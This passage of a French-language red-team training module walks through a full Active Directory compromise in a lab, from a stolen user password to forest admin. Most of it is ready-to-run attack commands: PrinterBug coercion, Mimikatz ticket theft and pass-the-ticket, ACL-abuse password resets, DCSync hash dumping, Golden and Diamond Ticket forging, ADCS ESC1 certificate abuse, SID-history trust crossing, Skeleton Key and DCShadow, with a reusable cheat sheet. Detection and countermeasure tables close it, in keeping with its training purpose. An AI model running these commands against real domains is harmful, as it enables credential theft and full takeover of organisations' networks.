# -Properties name,dNSHostName : nom et nom DNS complet
Get-DomainComputer -Unconstrained -Properties name,dNSHostName

# Résultat attendu : SRV01.redteam.lab a Unconstrained Delegation
```

#### Étape 2 : Forcer un admin à se connecter

```bash
# Étape 2 : PrinterBug pour forcer une authentification du DC vers SRV01
# printerbug.py : outil Impacket — déclenche le service MS-RPRN (Print Spooler)
#   "redteam.lab"/alice:"Passw0rd!"@192.168.56.10 : credentials de l'attaquant + IP DC (source)
#   192.168.56.20 : IP du serveur avec Unconstrained Delegation (SRV01) — destination du callback
# Le DC01 (192.168.56.10) est forcé de s'authentifier auprès de SRV01 (192.168.56.20)
# Résultat : TGT de DC01$ stocké en mémoire sur SRV01
python3 printerbug.py "redteam.lab"/alice:"Passw0rd!"@192.168.56.10 192.168.56.20
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `printerbug.py creds@DC_IP dest_IP` | Exploite le service Spooler pour forcer une authentification du DC vers un serveur cible |
| `alice:"Passw0rd!"@192.168.56.10` | Credentials Alice + IP du DC (source de l'authentification forcée) |
| `192.168.56.20` | IP du serveur avec Unconstrained Delegation (destination du callback NTLM) |

#### Étape 3 : Capture du TGT

```powershell
# Étape 3 : Sur SRV01 (en tant qu'admin local) — capture des tickets
# privilege::debug : active le privilège SeDebugPrivilege nécessaire pour accéder à LSASS
# sekurlsa::tickets /export : exporte tous les tickets Kerberos de la session LSASS
#   Les tickets sont sauvegardés sous forme de fichiers .kirbi
# exit : quitte Mimikatz
mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" exit

# Après l'export, identifier le TGT de l'admin (nommé [0;XXXXXX]-X-XXXXXXXX-XXX-XXXXXXXX.kirbi)
# Chercher un ticket avec : ServiceName = krbtgt/... ou ClientName = admin (dc01$)
# Les fichiers exportés sont dans le répertoire courant de Mimikatz
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `privilege::debug` | Active SeDebugPrivilege (accès à LSASS requis) |
| `sekurlsa::tickets /export` | Exporte tous les tickets Kerberos du cache LSASS vers des fichiers `.kirbi` |
| `exit` | Quitte Mimikatz |
| Fichiers `.kirbi` | Tickets exportés — chercher krbtgt (TGT) pour réutilisation |

#### Étape 4 : Réutilisation

```powershell
# Étape 4 : Rejouer le TGT capturé (Pass-the-Ticket)
# kerberos::ptt [0;XXXXXX].kirbi : injecte le ticket exporté dans la session courante
#   Le TGT capturé (de dc01$ ou Administrator) est chargé dans le cache Kerberos
mimikatz.exe "kerberos::ptt [0;XXXXXX].kirbi" exit

# Vérifier l'injection
klist
# Accéder à C$ du DC en utilisant le TGT injecté
dir \\dc01.redteam.lab\c$
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `kerberos::ptt <fichier.kirbi>` | Pass-The-Ticket : injecte le ticket dans le cache Kerberos de la session |
| `klist` | Liste les tickets Kerberos dans le cache (vérification) |
| `dir \\dc01.redteam.lab\c$` | Accès SMB au partage admin C$ du DC (test d'accès) |

---

## 11. TP Synthèse

### 11.1 Scénario : From User → Forest Admin

#### Contexte

```
Entreprise : RedTeam Corp.
Forêt A : redteam.lab (production)
  ├── DC01.redteam.lab (DC, CA)
  ├── SRV01.redteam.lab (Web server, Unconstrained Delegation)
  └── WS01.redteam.lab (Workstation)
Forêt B : corp.contoso.com (siège)
  └── DC02.corp.contoso.com (DC)
```

**Point de départ :**
- Utilisateur `alice` (mot de passe compromis)
- Droits : `alice@redteam.lab` — Domain Users standard

**Objectif final :**
- Contrôle total de `corp.contoso.com` (Enterprise Admin)

#### Déroulement

```mermaid
graph TD
    A[alice@redteam.lab] -->|1. BloodHound enum| B[GenericAll sur bob.admin]
    B -->|2. ACL Abuse| C[Changer mot de passe bob.admin]
    C -->|3. Bob est Domain Admin| D[DCSync → KRBTGT Hash]
    D -->|4. Golden Ticket| E[Accès SRV01]
    E -->|5. ADCS Abuse ESC1| F[Certificat Administrator]
    F -->|6. DCSync| G[Hash DC01$]
    G -->|7. Trust SIDHistory| H[Golden Ticket with ExtraSID]
    H -->|8. Trust Crossing| I[Accès corp.contoso.com]
    I -->|9. DCSync| J[Forest Admin]
```

### 11.2 Pas à pas détaillé

#### Phase 1 : Reconnaissance et ACL Abuse

```bash
# 1. Énumération BloodHound (collecte initiale)
# bloodhound-python : collecteur BloodHound en Python pour UNIX
#   -u alice : nom d'utilisateur
#   -p 'Passw0rd!' : mot de passe
#   -d redteam.lab : domaine
#   -dc dc01.redteam.lab : DC cible
#   -ns 192.168.56.10 : serveur DNS (généralement le DC)
#   -c all : collecte tous les types d'objets (Users, Groups, Computers, ACLs, etc.)
bloodhound-python -u alice -p 'Passw0rd!' -d redteam.lab -dc dc01.redteam.lab -ns 192.168.56.10 -c all

# 2. Sur BloodHound, identifier le chemin privilégié :
# alice → GenericAll → bob.admin
# Requête Cypher BloodHound :
# MATCH p = shortestPath((u:User)-[:GenericAll]->(target:User))
# WHERE u.name = "ALICE@REDTEAM.LAB" RETURN p
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `bloodhound-python` | Collecteur BloodHound (version Python, compatible Linux) |
| `-u alice -p 'Passw0rd!'` | Credentials de l'utilisateur Alice |
| `-d redteam.lab` | Domaine cible |
| `-dc dc01.redteam.lab` | Contrôleur de domaine interrogé |
| `-ns 192.168.56.10` | Serveur DNS (résolution de noms) |
| `-c all` | Collecte complète (utilisateurs, groupes, ACLs, sessions, etc.) |
| Requête Cypher `-[:GenericAll]->` | Trouve les relations GenericAll entre objets (permet de modifier le mot de passe) |

```powershell
# 3. Réinitialiser le mot de passe de bob.admin (ACL Abuse — GenericAll sur bob.admin)
# Set-DomainUserPassword : PowerView — modifie le mot de passe d'un utilisateur
#   -Identity "bob.admin" : utilisateur cible (bob.admin = Domain Admin)
#   -AccountPassword (ConvertTo-SecureString "Pwn3d!123" -AsPlainText -Force) : nouveau mot de passe
# 🔴 Alice (Domain Users) peut modifier le mot de passe de Bob (Domain Admin) grâce à GenericAll
Set-DomainUserPassword -Identity "bob.admin" -AccountPassword (ConvertTo-SecureString "Pwn3d!123" -AsPlainText -Force)
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `Set-DomainUserPassword` | PowerView — change le mot de passe d'un utilisateur AD |
| `-Identity "bob.admin"` | Utilisateur cible (bob.admin, qui est Domain Admin) |
| `-AccountPassword ... -Force` | Nouveau mot de passe défini pour le compte cible |
| Impact | Alice (non-admin) devient Domain Admin via le compte de Bob |

#### Phase 2 : DCSync et Golden Ticket

```bash
# 4. DCSync via bob.admin (maintenant Domain Admin)
# impacket-secretsdump : outil Impacket — extrait les hashes du NTDS.dit via DCSync
#   "redteam.lab"/"bob.admin":"Pwn3d!123"@192.168.56.10 : credentials Bob + IP du DC
#   Résultat : hash du KRBTGT, hash Administrator, tous les hashes du domaine
impacket-secretsdump "redteam.lab"/"bob.admin":"Pwn3d!123"@192.168.56.10

# 5. Forger un Golden Ticket avec le hash KRBTGT
# Variable contenant le hash NTLM du compte KRBTGT (extrait par secretsdump)
HASH_KRBTGT="5f7d9a7d6a8b9c0d1e2f3a4b5c6d7e8f"
# Variable contenant le SID du domaine
SID_DOMAIN="S-1-5-21-111111111-111111111-111111111"

# ticketer.py : outil Impacket — crée un TGT (Golden Ticket) personnalisé
#   -nthash $HASH_KRBTGT : hash NTLM du KRBTGT
#   -domain-sid $SID_DOMAIN : SID du domaine
#   -domain redteam.lab : nom du domaine
#   -user Administrator : utilisateur à usurper
#   -groups 512,513,518,519 : RID des groupes (Domain Admins, Domain Users, Schema Admins, Enterprise Admins)
#   -duration 10 : validité du ticket (10h)
# Résultat : fichier Administrator.ccache
ticketer.py -nthash $HASH_KRBTGT \
    -domain-sid $SID_DOMAIN \
    -domain redteam.lab \
    -user Administrator \
    -groups 512,513,518,519 \
    -duration 10

# Définir le cache Kerberos pour utiliser le TGT créé
export KRB5CCNAME=Administrator.ccache
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `impacket-secretsdump bob.admin@DC_IP` | DCSync — extrait les hashes du NTDS.dit (nécessite des droits élevés) |
| `HASH_KRBTGT="..."` | Hash NTLM du KRBTGT (précieusement conservé — permet de forger n'importe quel ticket) |
| `ticketer.py -nthash -domain-sid -user Administrator -groups` | Crée un TGT (Golden Ticket) avec le hash KRBTGT |
| `-groups 512,513,518,519` | RID des groupes privilégiés (DA, DU, Schema Admins, EA) |
| `export KRB5CCNAME=Administrator.ccache` | Utilise le TGT forgé pour toute authentification Kerberos |

#### Phase 3 : ADCS Abuse (ESC1)

```bash
# 6. Énumération ADCS — trouver les templates vulnérables (ESC1)
# certipy find : énumère les PKI/ADCS du domaine
#   -k : utilise l'authentification Kerberos (avec le Golden Ticket dans KRB5CCNAME)
#   -target dc01.redteam.lab : machine cible (DC qui fait aussi CA)
#   -dc-ip 192.168.56.10 : IP du DC
#   -stdout : affiche les résultats dans le terminal (au lieu d'un fichier)
certipy find -k -target dc01.redteam.lab -dc-ip 192.168.56.10 -stdout

# 7. Demande de certificat auprès de l'CA en usurpant Administrator (ESC1)
# certipy req : demande un certificat
#   -k : authentification Kerberos
#   -ca redteam-DC01-CA : nom de l'autorité de certification
#   -template VulnTemplate : template vulnérable (ESC1 — permet de spécifier l'UPN)
#   -target dc01.redteam.lab : CA cible
#   -upn 'administrator@redteam.lab' : 🔴 UPN usurpé (permet d'obtenir un cert au nom d'Administrator)
# Résultat : fichier administrator.pfx (certificat + clé privée)
certipy req -k -ca redteam-DC01-CA \
    -template VulnTemplate \
    -target dc01.redteam.lab \
    -upn 'administrator@redteam.lab'

# 8. Extraction du hash NTLM d'Administrator via le certificat
# certipy auth : authentifie avec le certificat pour obtenir le hash NTLM (PKINIT + DCSync)
#   -pfx administrator.pfx : certificat + clé privée
#   -domain redteam.lab : domaine
#   -dc-ip 192.168.56.10 : DC pour l'authentification
certipy auth -pfx administrator.pfx -domain redteam.lab -dc-ip 192.168.56.10
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `certipy find -k -target DC -stdout` | Énumère les CA, templates, et configurations ADCS |
| `certipy req -ca -template -upn admin@domain` | Demande un certificat avec UPN usurpé (ESC1) |
| `-upn 'administrator@redteam.lab'` | 🔴 UPN usurpé — le certificat est émis pour Administrator |
| `certipy auth -pfx cert.pfx -domain -dc-ip` | Authentification PKINIT + extraction du hash NTLM (DCSync) |

#### Phase 4 : Trust Crossing vers corp.contoso.com

```bash
# 9. Récupérer le SID de la forêt cible corp.contoso.com
# Méthode possible : via un compte existant dans contoso
# OU via BloodHound si les deux forêts sont découvertes (trust mapping)

# SID de la forêt cible (corp.contoso.com)
SID_CONTOSO="S-1-5-21-222222222-222222222-222222222"

# 10. Forger un Golden Ticket avec SID History (ExtraSID) pour inclure Enterprise Admins de contoso
# ticketer.py -extra-sid ${SID_CONTOSO}-519 : 🔴 ajoute le RID 519 (Enterprise Admins) de contoso
#   Ce SID supplémentaire permet d'être reconnu comme EA dans la forêt cible
#   -nthash $HASH_KRBTGT : hash KRBTGT de redteam.lab (ticket signé par redteam)
#   -groups 512,513,518,519 : groupes locaux de redteam
ticketer.py -nthash $HASH_KRBTGT \
    -domain-sid $SID_DOMAIN \
    -domain redteam.lab \
    -user Administrator \
    -extra-sid "${SID_CONTOSO}-519" \
    -groups 512,513,518,519 \
    -duration 10

export KRB5CCNAME=Administrator.ccache

# 11. Accès à la forêt cible via le Golden Ticket avec ExtraSID
# crackmapexec smb : teste l'accès SMB à la machine cible
#   -k : authentification Kerberos (avec le ticket forgé)
#   --use-kcache : utilise le cache Kerberos (KRB5CCNAME)
# Si le SID History est bien interprété par la confiance, on est reconnu comme EA de contoso
crackmapexec smb dc02.corp.contoso.com -k --use-kcache
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `SID_CONTOSO="..."` | SID de la forêt cible corp.contoso.com |
| `ticketer.py -extra-sid "${SID}-519"` | 🔴 Ajoute Enterprise Admins de contoso dans le SID History |
| `crackmapexec smb -k --use-kcache` | Teste l'accès à la forêt cible avec le TGT forgé |

#### Phase 5 : Forest Admin

```bash
# 12. DCSync sur la forêt cible — récupération des hashes de corp.contoso.com
# impacket-secretsdump -k : utilise l'authentification Kerberos (cache avec ExtraSID)
#   dc02.corp.contoso.com : DC de la forêt cible
#   -no-pass : pas de mot de passe (utilisation du TGT forgé dans KRB5CCNAME)
# Le Golden Ticket avec SID History (Enterprise Admins contoso) permet le DCSync
impacket-secretsdump -k dc02.corp.contoso.com -no-pass

# Objectif atteint : hash KRBTGT de contoso + Administrator de corp.contoso.com compromis
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `impacket-secretsdump -k -no-pass DC` | DCSync via Kerberos (Golden Ticket avec ExtraSID) sur la forêt cible |
| `-k` | Authentification Kerberos (utilise KRB5CCNAME) |
| `-no-pass` | Aucun mot de passe — utilise directement le TGT forgé |

### 11.3 Tableau ATT&CK complet

| Technique | ID MITRE | Tactic | Outil utilisé |
|-----------|----------|--------|-------------|
| Account Discovery | T1087.002 | Discovery | BloodHound |
| Permission Groups Discovery | T1069.002 | Discovery | BloodHound |
| Domain Trust Discovery | T1482 | Discovery | BloodHound, nltest |
| ACL Abuse | T1098 | Persistence | PowerView, dacledit.py |
| Account Manipulation | T1098 | Persistence | Set-DomainUserPassword |
| Valid Accounts | T1078 | Defense Evasion | — |
| DCSync | T1003.006 | Credential Access | secretsdump |
| Golden Ticket | T1558.001 | Credential Access | ticketer.py, Mimikatz |
| Silver Ticket | T1558.002 | Credential Access | ticketer.py |
| Steal or Forge Kerberos Tickets | T1558 | Credential Access | Mimikatz, Rubeus |
| SID-History Injection | T1134.005 | Defense Evasion | Mimikatz, ticketer.py |
| Trust Abuse | T1484 | Privilege Escalation | ticketer.py /extra-sid |
| Unconstrained Delegation | T1558.003 | Credential Access | Mimikatz, Rubeus |
| Constrained Delegation | T1558.003 | Credential Access | getST.py, Rubeus |
| Resource-Based Delegation | T1558.003 | Credential Access | rbcd.py, getST.py |
| ADCS Abuse (ESC1) | T1649 | Credential Access | Certipy, Certify |
| ADCS Abuse (ESC8) | T1557.001 | Credential Access | ntlmrelayx, PetitPotam |
| Skeleton Key | T1098 | Persistence | Mimikatz |
| DCShadow | T1207 | Persistence | Mimikatz |
| AdminSDHolder Backdoor | T1098 | Persistence | PowerView |
| NTLM Relay | T1557.001 | Credential Access | ntlmrelayx |
| PetitPotam | T1187 | Credential Access | PetitPotam.py |

### 11.4 Heat map ATT&CK

```mermaid
format: markdown
title: Heat Map — J2 M9 AD Advanced

| Tactic | Technique | Score (1-5) | Couverture |
|--------|-----------|------------|------------|
| TA0006 Credential Access | T1558.001 Golden Ticket | ⭐⭐⭐⭐⭐ | TP complet |
| TA0006 Credential Access | T1558.002 Silver Ticket | ⭐⭐⭐⭐ | TP guidé |
| TA0006 Credential Access | T1649 ADCS Abuse | ⭐⭐⭐⭐⭐ | TP complet |
| TA0006 Credential Access | T1003.006 DCSync | ⭐⭐⭐⭐⭐ | TP complet |
| TA0006 Credential Access | T1557.001 NTLM Relay | ⭐⭐⭐⭐ | TP guidé |
| TA0003 Persistence | T1098 ACL Abuse | ⭐⭐⭐⭐⭐ | TP complet |
| TA0003 Persistence | T1098 AdminSDHolder | ⭐⭐⭐⭐ | TP guidé |
| TA0003 Persistence | T1098 Skeleton Key | ⭐⭐⭐⭐ | TP guidé |
| TA0003 Persistence | T1207 DCShadow | ⭐⭐⭐ | Démo |
| TA0004 Privilege Escalation | T1484 Trust Abuse | ⭐⭐⭐⭐ | TP guidé |
| TA0005 Defense Evasion | T1134.005 SIDHistory | ⭐⭐⭐⭐ | TP guidé |
| TA0008 Lateral Movement | T1558.003 Delegation | ⭐⭐⭐⭐ | TP guidé |
```

#### Légende

| Score | Couverture |
|-------|------------|
| ⭐⭐⭐⭐⭐ | TP complet, script pas à pas, cas réel |
| ⭐⭐⭐⭐ | TP guidé, technique maîtrisée |
| ⭐⭐⭐ | Démonstration, concepts compris |
| ⭐⭐ | Théorie, sans pratique |
| ⭐ | Mentionné, non pratiqué |

### 11.5 Matrice de détection

| Attaque | Event ID Windows | Log source | Détection |
|---------|-----------------|------------|-----------|
| ACL Abuse | 5136 (modification DACL) | Security | Changer owner/ACL anormal |
| AdminSDHolder | 5136, 5141 | Security | Modification AdminSDHolder |
| Golden Ticket | 4768, 4624 | Security | TGT durée > 10h, SID extra |
| Silver Ticket | 4769, 4624 | Security | TGS sans AS-REQ |
| Diamond Ticket | 4768, 4776 | Security | Anomalie dans claims |
| Skeleton Key | 4672, 4776 | Security, LSASS | Accès LSASS anormal |
| DCShadow | 4662, 4742 | Security, Replication | Nouveau DC non autorisé |
| Trust Abuse | 4768, 4624 | Security | SIDHistory inattendu |
| ADCS ESC1 | 4886, 4887 | Security, ADCS | Certificat avec alt principal |
| ADCS ESC8 | 4624, 4887 | Security, ADCS, IIS | Auth NTLM vers certsrv |
| Delegation | 4768, 4769 | Security | S4U2Self, S4U2Proxy anormal |

### 11.6 Synthèse des prérequis



### 11.7 Checklist de l'attaquant

- [ ] Étape 0 : Obtenir un pied dans le domaine (user compromis)
- [ ] Étape 1 : BloodHound — cartographier les relations AD
- [ ] Étape 2 : Identifier les ACL abusables (GenericAll, WriteDACL, etc.)
- [ ] Étape 3 : Élever vers un compte privilégié (ACL → Admin)
- [ ] Étape 4 : DCSync — récupérer KRBTGT hash
- [ ] Étape 5 : Golden / Diamond Ticket — persistance domaine
- [ ] Étape 6 : ADCS — ESC1 / ESC8 pour élever davantage
- [ ] Étape 7 : Skeleton Key / AdminSDHolder — backdoor
- [ ] Étape 8 : Délégation — abuser des services pour lateral movement
- [ ] Étape 9 : Trust — traverser vers d'autres forêts
- [ ] Étape 10 : Forest Admin — objectif final

### 11.8 Contre-mesures générales

| Domaine | Mesure | Priorité |
|---------|--------|----------|
| **ACL** | Auditer régulièrement les ACL avec BloodHound | Haute |
| **ACL** | Principe du moindre privilège | Haute |
| **KRBTGT** | Changer le mot de passe KRBTGT tous les 180 jours (×2) | Haute |
| **KRBTGT** | Utiliser `Reset-ADKRBKey` pour rotation | Haute |
| **ADCS** | Désactiver les templates vulnérables (ESC1) | Haute |
| **ADCS** | Activer l'extension du sujet (Subject Name) | Haute |
| **ADCS** | Désactiver l'authentification NTLM sur /certsrv | Moyenne |
| **ADCS** | Activer HTTPS uniquement + EPA | Moyenne |
| **LSASS** | Activer Credential Guard (Virtual Secure Mode) | Haute |
| **LSASS** | Activer PPL pour LSASS | Haute |
| **LSASS** | Limiter les droits DEBUG aux administrateurs | Moyenne |
| **Monitoring** | Centraliser les logs Security dans SIEM | Haute |
| **Monitoring** | Règles Sigma pour Golden/Silver/Diamond Ticket | Haute |
| **Délégation** | Éviter l'Unconstrained Delegation | Haute |
| **Délégation** | Préférer RBCD (Resource-Based) | Moyenne |
| **Trust** | Auditer les SIDHistory | Haute |
| **Trust** | Valider les trusts avant mise en place | Moyenne |
| **AdminSDHolder** | Surveiller les modifications de l'AdminSDHolder | Haute |
| **Reboot** | Planifier des redémarrages réguliers des DCs | Baisse (skeleton key) |

---

## 12. Annexes

### 12.1 Références bibliographiques

| Ressource | URL |
|-----------|-----|
| BloodHound | https://github.com/BloodHoundAD/BloodHound |
| PowerView | https://github.com/PowerShellMafia/PowerSploit |
| Mimikatz | https://github.com/gentilkiwi/mimikatz |
| Impacket | https://github.com/fortra/impacket |
| Certipy | https://github.com/ly4k/Certipy |
| Certify | https://github.com/GhostPack/Certify |
| Rubeus | https://github.com/GhostPack/Rubeus |
| PKINITtools | https://github.com/dirkjanm/PKINITtools |
| PetitPotam | https://github.com/topotam/PetitPotam |
| KrbRelayUp | https://github.com/Dec0ne/KrbRelayUp |
| AD Security | https://github.com/rootsecdev/AD-security |
| HackTricks AD | https://book.hacktricks.xyz/windows-hardening/active-directory-methodology |
| The Hacker Recipes | https://www.thehacker.recipes/ad/ |

### 12.2 Commandes essentielles — Aide-mémoire

```bash
# === Reconnaissance ===
# Enumération BloodHound (collecte complète)
bloodhound-python -u <user> -p <pass> -d <domain> -dc <dc> -c all
# Énumération des trusts de domaine (nltest, natif Windows)
nltest /domain_trusts
# Énumération des trusts (PowerShell AD module)
Get-ADTrust -Filter *

# === ACL Abuse ===
# PowerView : lister les ACL d'un objet
Get-ObjectAcl -Identity <user>
# PowerView : ajouter des droits complets (GenericAll) pour un utilisateur sur une cible
Add-ObjectAcl -TargetSamAccountName <target> -PrincipalSamAccountName <user> -Rights All
# Impacket : modifier les ACL via LDAP (équivalent Linux)
dacledit.py -action write -target <DN> -principal <DN> -grant GenericAll <domain>/<user>

# === AdminSDHolder ===
# Lire les ACL du conteneur AdminSDHolder
Get-Acl -Path "AD:CN=AdminSDHolder,CN=System,DC=<domain>,DC=<tld>"
# Ajouter des droits sur AdminSDHolder pour persistance (propagé par SDProp)
Add-ObjectAcl -TargetName "AdminSDHolder" -TargetADServer "CN=System,..." -PrincipalSamAccountName <user> -Rights All
# Modifier le mot de passe d'un utilisateur protégé (après propagation SDProp)
Set-DomainUserPassword -Identity <user> -AccountPassword (ConvertTo-SecureString <pass> -AsPlainText -Force)

# === DCSync ===
# Extraction des hashes du NTDS.dit (nécessite droits de réplication)
impacket-secretsdump <domain>/<user>:<pass>@<dc>

# === Golden Ticket ===
# Impacket : forger un TGT avec le hash KRBTGT (Linux)
ticketer.py -nthash <hash> -domain-sid <sid> -domain <domain> -user Administrator -groups 512,513,518,519
# Mimikatz : forger un TGT en mémoire (Windows)
mimikatz.exe "kerberos::golden /domain:<domain> /sid:<sid> /user:Administrator /krbtgt:<hash> /id:500 /groups:512,513,518,519 /ptt"

# === Silver Ticket ===
# Impacket : forger un TGS pour un service spécifique (avec hash du compte service)
ticketer.py -nthash <machine_hash> -domain-sid <sid> -domain <domain> -user Administrator -groups 512 -duration 10
# Mimikatz : TGS pour CIFS/SMB vers un serveur cible
mimikatz.exe "kerberos::golden /domain:<domain> /sid:<sid> /target:<server> /service:CIFS /rc4:<hash> /user:Administrator /id:500 /groups:512 /ptt"

# === Diamond Ticket ===
# Rubeus : forger un TGT à partir d'un TGT légitime + décrypté avec KRBTGT
Rubeus.exe diamond /tgtdeleg /ticketuser:Administrator /ticketuserid:500 /groups:512 /krbkey:<hash>

# === ADCS ESC1 ===
# Énumération des CA et templates vulnérables avec Certipy
certipy find -u <user> -p <pass> -dc-ip <dc> -vulnerable -stdout
# Demande de certificat avec UPN usurpé (ESC1)
certipy req -u <user> -p <pass> -ca <ca> -template <template> -target <dc> -upn <admin>@<domain>
# Extraction du hash NTLM via le certificat
certipy auth -pfx <cert>.pfx -domain <domain> -dc-ip <dc>

# === ADCS ESC8 (NTLM Relay vers ADCS) ===
# ntlmrelayx : relay NTLM vers le service ADCS (certificat)
impacket-ntlmrelayx -t http://<dc>/certsrv/certfnsh.asp -smb2support --adcs --template <template>
# PetitPotam : forcer une authentification du DC vers le relayeur
python3 PetitPotam.py <relay_ip> <dc_ip>

# === Skeleton Key ===
# Mimikatz : injecter un master password dans LSASS du DC (tous les comptes utilisables avec mimikatz)
mimikatz.exe "privilege::debug" "misc::skeleton" "exit"

# === DCShadow ===
# Mimikatz : modifier un attribut AD via un faux DC (shadow)
mimikatz.exe "privilege::debug" "lsadump::dcshadow /object:<DN> /attribute:memberOf /value:<group_DN>" "lsadump::dcshadow /push"

# === Trust Attack (Extra-SID) ===
# ticketer.py : forger un Golden Ticket avec SID History (Enterprise Admins d'une autre forêt)
ticketer.py -nthash <krbtgt_hash> -domain-sid <source_sid> -domain <source_domain> -user Administrator -extra-sid "<target_sid>-519" -groups 512,513,518,519

# === Unconstrained Delegation ===
# Mimikatz sur serveur UD : exporter tous les tickets LSASS
mimikatz.exe "privilege::debug" "sekurlsa::tickets /export"
# Mimikatz : injecter le TGT capturé dans la session
mimikatz.exe "kerberos::ptt <ticket>.kirbi"

# === Constrained Delegation ===
# Impacket getST : S4U2Self + S4U2Proxy pour usurper un utilisateur vers un SPN autorisé
impacket-getST -spn <service>/<target> -impersonate Administrator <domain>/<machine>$:<pass>

# === RBCD (Resource-Based Constrained Delegation) ===
# Impacket rbcd.py : configurer RBCD (autoriser une machine à déléguer vers une autre)
python3 rbcd.py -delegate-from <attacker_machine>$ -delegate-to <target>$ -action write <domain>/<user>:<pass>
# Impacket getST.py : obtenir un TGS pour le service cible via RBCD
python3 getST.py -spn <service>/<target> -impersonate Administrator <domain>/<attacker_machine>$:<pass>
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `bloodhound-python -c all` | Collecte complète BloodHound (tout le domaine) |
| `nltest /domain_trusts` | Énumération native des trusts de domaine (Windows) |
| `Get-ADTrust -Filter *` | Énumération des trusts via PowerShell AD module |
| `Get-ObjectAcl -Identity` | PowerView : lecture des ACL d'un objet AD |
| `Add-ObjectAcl -Rights All` | PowerView : ajout GenericAll (contrôle total) |
| `dacledit.py -action write -grant GenericAll` | Impacket : modification ACL via LDAP |
| `Get-Acl -Path "AD:CN=AdminSDHolder,..."` | Lecture des ACL du conteneur AdminSDHolder |
| `Set-DomainUserPassword` | PowerView : changement de mot de passe AD |
| `impacket-secretsdump user:pass@DC` | DCSync — extraction du NTDS.dit |
| `ticketer.py -nthash -domain-sid -user -groups` | Impacket : création d'un TGT (Golden/Silver Ticket) |
| `mimikatz "kerberos::golden ... /ptt"` | Mimikatz : Golden Ticket en mémoire |
| `mimikatz "kerberos::golden ... /target:... /service:... /rc4:..."` | Mimikatz : Silver Ticket (TGS signé par un service) |
| `Rubeus.exe diamond /tgtdeleg ... /krbkey:<hash>` | Rubeus : Diamond Ticket (TGT forgé à partir d'un TGT réel) |
| `certipy find -vulnerable -stdout` | Certipy : énumération ADCS avec filtrage vulnérabilités |
| `certipy req -upn admin@domain` | Certipy : demande de certificat avec UPN usurpé (ESC1) |
| `certipy auth -pfx cert.pfx` | Certipy : extraction du hash NTLM via PKINIT |
| `ntlmrelayx -t http://DC/certsrv ... --adcs` | ntlmrelayx : relay NTLM vers ADCS (ESC8) |
| `PetitPotam.py relay_ip dc_ip` | Forçage d'authentification du DC (MS-EFSRPC) |
| `mimikatz "misc::skeleton"` | Mimikatz : Skeleton Key (master password LSASS) |
| `mimikatz "lsadump::dcshadow /push"` | Mimikatz : DCShadow (modification AD via faux DC) |
| `ticketer.py -extra-sid "target_sid-519"` | Trust Attack : SID History avec Enterprise Admins cible |
| `mimikatz "sekurlsa::tickets /export"` | Mimikatz : export des tickets Kerberos LSASS |
| `impacket-getST -spn service/target -impersonate Admin` | Constrained Delegation : S4U2Self + S4U2Proxy |
| `rbcd.py -delegate-from X -delegate-to Y` | Configuration RBCD : autoriser X à déléguer vers Y |

### 12.3 Liens MITRE ATT&CK

| ID | Nom | Lien |
|----|-----|------|
| T1098 | Account Manipulation | https://attack.mitre.org/techniques/T1098/ |
| T1222 | File and Directory Permissions Modification | https://attack.mitre.org/techniques/T1222/ |
| T1558.001 | Golden Ticket | https://attack.mitre.org/techniques/T1558/001/ |
| T1558.002 | Silver Ticket | https://attack.mitre.org/techniques/T1558/002/ |
| T1558.003 | Kerberos Delegation | https://attack.mitre.org/techniques/T1558/003/ |
| T1558.004 | AS-REP Roasting | https://attack.mitre.org/techniques/T1558/004/ |
| T1207 | DCShadow | https://attack.mitre.org/techniques/T1207/ |
| T1484 | Domain Policy Modification | https://attack.mitre.org/techniques/T1484/ |
| T1003.006 | DCSync | https://attack.mitre.org/techniques/T1003/006/ |
| T1134.005 | SID-History Injection | https://attack.mitre.org/techniques/T1134/005/ |
| T1187 | Forced Authentication | https://attack.mitre.org/techniques/T1187/ |
| T1557.001 | LLMNR/NBT-NS Poisoning and SMB Relay | https://attack.mitre.org/techniques/T1557/001/ |
| T1649 | Steal or Forge Authentication Certificates | https://attack.mitre.org/techniques/T1649/ |

---

> **Note importante** : Toutes les techniques présentées dans ce module sont destinées à des tests d'intrusion autorisés dans le cadre de la directive **NIS2 (UE 2022/2555)** et du référentiel **MITRE ATT&CK**. L'utilisation non autorisée de ces techniques est illégale et passible de poursuites pénales.
